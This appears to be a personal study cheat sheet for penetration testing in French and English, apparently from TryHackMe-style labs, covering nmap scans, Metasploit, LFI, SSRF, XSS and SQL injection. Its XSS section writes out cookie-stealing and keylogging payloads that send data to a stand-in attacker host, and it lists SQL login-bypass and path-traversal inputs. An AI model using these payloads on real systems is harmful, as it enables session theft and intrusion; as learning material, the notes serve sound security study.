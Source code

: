 Reconnaissance :
 * NMAP scan :
    * TCP connect : `-sT` -> respond with RST or SYN/ACK. Bad with firewall (packets dropped)
    * SYN scan : `-sS` -> stealth, faster
    * NULL : `-sN` -> stealth, respond with RST if closed
    * FIN : `-sF` -> stealth, respond with RST if closed
    * XMAS : `-sX`-> stealth, respond with RST if closed
    * UDP : `-sU` -> open|filtered
    * ICMP : `-sn` -> network discovery
    * Firewall evasion : `-Pn` ->  not ping before scan
    * Firewall spot : `--badsum`-> if response it has firewall
    * Vuln scan : `nmap -Pn --script vuln` ou `-sV --script vulscan/vulscan.nse` ou `-sV --script nmap-vulners/` 
 * Exporter pour searchsploit : `nmap [...] -oX result.xml`
 * Gobuster :

Metasploit :
 * Chercher l'exploit -> mettre les options (RHOSTS, LHOST, LPORT) -> mettre un payload (windows/x64/shell/reverse_tcp) -> faire un reverse meterpreter (shell_to_meterpreter)
 Meterpreter :
   * Upload un fichier : `upload <path host>`
   * Avoir powershell : `load powershell` + `powershell_shell`
   

 SMB :
 * Enumerate share `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>`
 * Port : 139/445


 Searchsploit :
 * Chercher un titre : `searchsploit -t <titre>`
 * Importer les résultats de nmap : `searchsploit -x --nmap result.xml`

 Web exploring :
 * Robots.txt
 * Source code (comments, js)
 * Favicon to get framework (https://wiki.owasp.org/index.php/OWASP_favicon_database)
 * Subdomain : dnsrecon (dns bruteforce), Sublist3r, Certs (https://crt.sh)
 * Brute force a lot of things : ffuf & `/usr/share/seclists` lists
 * IDORs : chercher avec les IDs des comptes si on peut swap, et chercher les dev paths non référencés
 * LFI (local file inclusion) : 
   * when using get.php, function file_get_contents 
   * When using include in php code, we can use it to access other files. When seeing ?<function>=<path>.php, we can use the ../ attack
   * If adding some extension at the end (.php for ex) : use %00 or 0x00 (NULL BYTE) to cut off extension. Not working for PHP 5.3.4 and above
   * if filtering, can use "....//" instead of "../"
 * RFI (remote file inclusion) :
   * Need "allow_url_fopen" be on
   * Same as LFI
 * SSRF : Server-side Request Forgery
   * Full URL used, partial url or path of url
 * XSS :
   * Reflected : When putting XSS in the request, work when sending link to victim
   * Stored : stored in the web app
   * DOM based : Use DOM to attack
   * Blind : Same as stored but can't test it (ex : messages). Tool : https://github.com/mandatoryprogrammer/xsshunter-express
   * CheatSheet :
     * Session stealing : `fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));`
     * Key logger : `document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}`
     * When using in HTML : close tag and then put the script `<script>alert('THM');</script>`
     * With JS : Use `//` to comment the EOL and then execute the code
     * Polyglot XSS : all in one bypass filters/tags/attributes
     * To receive information : use netcat in attack machine `nc -nplv <port>`and then send payload like this `</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
     * https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  * Command injection :
    * Cheatsheet : https://github.com/payloadbox/command-injection-payload-list
  * SQL injection :
    * In-Band SQLi : get the result in the browser. Get some errors : use `'` or `"` 
    * Blind SQLi : 
      * Auth : Bypass logins, mostly put `' 1=1;--` in the command 
      * Boolean based : when have two values in return to confirm the injection worked. Can explore the db using like. Ex : `' UNION SELECT 1,2,3 where database() like 's%';--` to search for the db name
      * Time based : with SLEEP(x), will be executed only if the UNION is working
      * Out of band : 2 communications channels. Ex : injection via website but DB answering on the attackers machine
    * 
 * Cloud environment : 
   * IP with sensitive environment : 169.254.169.254

 Hash :
  * Crackstation.com

Usefull tools :
 * https://pipedream.com

 s 
